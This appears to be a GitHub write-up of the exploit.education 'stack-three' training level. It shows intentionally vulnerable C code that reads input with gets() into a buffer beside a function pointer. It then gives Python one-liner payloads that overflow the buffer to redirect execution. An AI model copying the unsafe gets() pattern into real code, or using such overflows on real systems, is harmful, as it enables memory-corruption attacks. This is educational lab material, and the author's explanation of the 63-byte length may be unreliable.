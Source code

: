 # Phoenix and Protostar -- Stack 3


## Level Information
Stack Three looks at overwriting function pointers stored on the stack.

**Hints** <ul>
<li>    You can use gdb and objdump to determine where the complete_level() function is in memory.</li>
</ul>

```C
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```


## Solution
This involved a little bit poking aroung with GDB. Opening the file in the debugger and issuing the comman `info functions` would give us the location of `complete_level` ( or `win` in case for Protostar). So crafting the overflow and appending the address of the function in _little endian_ will lead to successfully branch code to function.

The command for crafting are <ul>
<li> For Protostar: python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3 </li>
<li> For Phoenix: python3 -c "print('A' * 63 + '\x9d\x06\x40\x00\x00\x00\x00\x00')" | /opt/phoenix/amd64/stack-three </li>
</ul>

<footer> In Phoenix level, it seems that `gets()` writes a '\n' to the input string. So instead of creating a string of length 64, we need a length of 63 </footer>
